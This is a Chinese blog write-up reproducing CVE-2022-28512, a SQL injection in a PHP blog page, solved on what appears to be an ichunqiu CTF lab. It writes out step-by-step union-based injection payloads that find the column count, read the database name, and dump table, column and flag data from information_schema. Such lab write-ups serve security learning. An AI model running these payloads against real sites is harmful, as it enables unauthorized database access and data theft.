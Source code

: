 ```yaml
---
title: CVE-2022-28512
subtitle:
date: 2025-03-14T12:31:43+08:00
slug: 2d91a81
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->



![](images/05fc58e4d286d3c2c23eb706b30ff1a2.png)

发现并没有什么可用的，看到题目提示，直接访问

```
http://eci-2ze1snkmg1wia23zk99t.cloudeci1.ichunqiu.com/single.php
```



![](images/e11222ab8431fbb5c43b5b0193854d13.png)



| 1                                                            | 判断注入点   |
| ------------------------------------------------------------ | ------------ |
| 2                                                            | 爆字段个数   |
| 3                                                            | 爆显位位置   |
| 4                                                            | 爆数据库名   |
| 5                                                            | 爆数据库表名 |
| 6                                                            | 爆数据库列名 |
| 7                                                            | 爆数据库数据 |
| 用1=1和and 1=2测试，发现页面正常，排除数字型。测试到3'发现报错 |              |
| ![](images/82e637b055cc8953041960d1bedb2394.png)             |              |
| 根据报错信息可知，单引号闭合，构造playload                   |              |

```
id=3'--+
```

首先爆字段个数，注入语句，发现到10时报错，显示位数为9

```
id=3' order by 9--+
```



![](images/dca74f1d7bdda5cb1757b2f136091db5.png)




爆显位位置，注入语句为

```
id=-3' union select 1,2,3,4,5,6,7,8,9--+
```



![](images/cbc0db57a21de3ecd37f9245fbffa5af.png)

4可以注入，语句

```
id=-3' union select 1,2,3,database(),5,6,7,8,9--+
```



![](images/c487dc06770823d4581c85af07d07deb.png)

发现数据库名称为ctf，接下来爆破库表名

```
id=-3' union select 1,2,3,group_concat(table_name),5,6,7,8,9 from information_schema.tables where table_schema=database()--+
```



![](images/89c660d1c9aa6d8a001c66488f45d31e.png)

得到数据库表名

```
titles,page_hits,membership_userpermissions,membership_groups,blog_categories,membership_userrecords,membership_users,editors_choice,blogs,links,flag,banner_posts,membership_grouppermissions,visitor_info
```

关键词为flag，爆破列名，注入语句为

```
id=-3' union select 1,2,3,group_concat(column_name),5,6,7,8,9 from information_schema.columns where table_schema=database() and table_name="flag"--+
```



![](images/f05a9102e6bac84d5df3cb913a4e6833.png)

爆破数据库数据，注入语句为

```
id=-3' union select 1,2,3,group_concat(flag),5,6,7,8,9 from flag --+
```



![](images/b7b20b166cfe751b021eec72a47d47a8.png)

